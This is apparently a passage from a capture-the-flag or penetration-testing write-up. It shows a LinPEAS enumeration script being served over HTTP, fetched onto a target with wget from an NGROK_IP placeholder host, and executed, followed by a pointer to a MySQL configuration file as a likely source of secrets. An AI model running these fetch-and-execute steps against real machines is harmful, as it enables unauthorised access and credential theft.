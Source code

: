 ```shell
python -m http.server
```

On target machine, navigate to the `/tmp` directory and download the file there using wget

![](attachments/20240402160450.png)

```shell
wget http://NGROK_IP:NGROK_PORT/linpeas.sh 
```

Give the script executable permission and run it

![](attachments/20240402160930.png)

```shell
chmod +x linpeas.sh
./linpeas.sh
```

Taking a look at the results:

![](attachments/20240402163047.png)

We have a mysql configuration file here, these files contain valuable information at times.
